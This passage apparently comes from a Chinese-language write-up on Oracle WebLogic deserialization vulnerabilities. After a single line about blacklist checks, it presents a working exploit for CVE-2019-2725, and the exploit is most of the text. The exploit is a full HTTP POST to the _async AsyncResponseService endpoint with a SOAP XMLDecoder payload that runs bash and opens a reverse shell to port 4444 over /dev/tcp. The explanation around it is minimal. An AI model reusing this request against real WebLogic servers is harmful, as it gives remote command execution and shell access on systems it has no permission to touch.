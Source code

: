 依然是进行黑名单判断

CVE-2019-2725
-------------

在 CVE-2017-10271 被修复的两年后出现了新漏洞，也就是 CVE-2019-2725，由于组件_async 存在反序列化

CVE-2019-2725 exp 如下

```
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.50.145:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-type: text/xml
Connection: close
Content-Length: 853

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1"> 
<string>-c</string>
</void>
<void index="2">
<string>bash -i >& /dev/tcp/192.168.50.145/4444 0>&1</string>
</void>
</array>
<void method="start"/> </void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>

```
